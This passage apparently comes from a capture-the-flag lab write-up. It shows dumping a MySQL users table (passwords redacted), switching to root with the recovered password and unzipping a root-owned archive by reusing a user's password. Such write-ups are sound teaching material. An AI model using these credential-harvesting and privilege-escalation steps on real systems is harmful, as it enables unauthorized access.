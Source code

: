 Found table name in database `accounts`: `users`

Let's extract it's data!

```
mysql> SELECT * FROM users;
+-------+---------------------+
| login | password            |
+-------+---------------------+
| root  | {Redacted}          |
| mike  | {Redacted}          |  
+-------+---------------------+
```

Found `root` password! Let's **Switch User** to `root`!

```
mike@host2:~$ su root
Password: 

root@host2:/home/mike# whoami;hostname;id;ip a
root
host2
uid=0(root) gid=0(root) groups=0(root)
[...]
9: eth0@if10: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
    link/ether 00:16:3e:17:60:9e brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.16.20.6/24 brd 172.16.20.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::216:3eff:fe17:609e/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm root in `host2`! :D

## Rooted

**In the home directory of user `root`, there is a zip file called `mike.zip`:**
```
root@host2:/home/mike# ls -lah /root
[...]
-rw-------  1 root root  218 Jul 16  2021 mike.zip
```

**However, when we try to `unzip` it, it needs a password:**
```
root@host2:/home/mike# unzip /root/mike.zip 
Archive:  /root/mike.zip
[/root/mike.zip] mike password:
```

**Fortunately, we found `mike`'s password in the MySQL `accounts` database! Let's use that password to `unzip` that!**
```
root@host2:/home/mike# unzip /root/mike.zip 
Archive:  /root/mike.zip
[/root/mike.zip] mike password: 
 extracting: mike
```
